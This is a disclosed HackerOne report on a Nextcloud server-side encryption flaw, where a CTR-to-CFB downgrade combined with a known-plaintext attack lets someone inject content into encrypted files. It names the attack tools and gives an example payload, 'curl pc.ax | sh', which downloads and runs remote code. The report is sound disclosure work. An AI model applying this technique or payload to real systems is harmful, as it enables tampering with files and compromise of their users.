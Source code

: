 # Downgrade encryption scheme and break integrity through known-plaintext attack

## Report Details
- **Report ID**: 742588
- **URL**: https://hackerone.com/reports/742588
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-11-20T19:40:03.765Z
- **Disclosed**: 2020-11-05T07:59:44.179Z

## Reporter
- **Username**: yahe
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
The idea behind the Server Side Encryption is that you can move your encrypted files to an external party without that external party being able to to read or modify those files. Some time ago, Nextcloud switched from unauthenticated CFB cipher block mode to authenticated CTR cipher block mode in an Encrypt-then-MAC scheme. However, backends compatibility has been maintained while downgrade attacks have been prevented on new files that use the CTR cipher block mode [1].

There is, however, one attack vector that has not been taken into account. CFB/OFB and CTR generate the same keystream for the first round, creating the possibility for a known-plaintext attack to extract the first bytes of the keystream. Furthermore, the downgrade attack only prevents files from not having a "signature" (HMAC) when their file header contain a CTR cipher.  A downgrade is still possible when another mode like CFB/OFB is given in the file header.

Because of these two vulnerabilities, a downgrade attack in conjunction with a known-plaintext attack can be leveraged to break the integrity of files encrypted with Encrypt-then-MAC encryption scheme of Nextcloud using the newer AES-256-CTR cipher.

In the first step, you need access to an encrypted file (as an external storage provider would have). You do not need access to the encryption keys as this attack is directly mounted on the encrypted file itself. By using a tool (like `strip-signature.php` [2]), you can strip the signature elements from the content block footers and change the cipher in the file header from `AES-256-CTR` to `AES-256-CFB`. Nextcloud will happily decrypt this file, the first 16 bytes will be perfectly readable but the rest of the file will be gibberish.

In the second step, you need to know what the contents of the file will look like (known-plaintext attack). For Linux binaries this will be relative easy as the ELF file format has a predictable structure will little variation in the first 16 bytes of the file. The same holds true for Linux shell scripts that will probably have `#!/bin/bash\n` as the first 12 of the 16 bytes preset. The same holds true for Python scripts, which will probably start with something like `#!/usr/bin/env python\n` providing all the known-plaintext that the attacker will need. If you have enough knowledge about the inital content of the file you can just inject your target content into the encrypted file with the help of a little tool (like `inject-content.php` [3]).

With these two steps, the attacker successfully broke the integrity guarantees of the Nextcloud Server-Side Encryption and was able to inject malicious code into files that will probably be made executable by a user that has downloaded those files from the Nextcloud server. An injectable payload that fits in those 16 bytes might e.g. be `curl pc.ax | sh\n` which downloads additional code (without length constraints) from an external source at executes the additional payload.

[1] https://github.com/nextcloud/server/blob/a374d8837d6de459500e619cf608e0721ea14574/apps/encryption/lib/Crypto/Crypt.php#L571
[2] https://github.com/syseleven/nextcloud-tools/blob/master/strip-signature.php
[3] https://github.com/syseleven/nextcloud-tools/blob/master/inject-content.php

## Impact

An attacker that has access to encrypted files that have been encrypted using the newest Encrypt-than-MAC encryption scheme with AES-256-CTR can be downgraded to unauthenticated AES-256-CFB encrypted files. Those downgraded files can then be injected with malicious content in the course of a known-plaintext attack (which is practically feasible as shown with ELF binaries, Python scripts, Bash scripts, etc.). Those injected binaries can then be used to further exploit the user.

## Attachments
- nextcloud_poc4.mp4
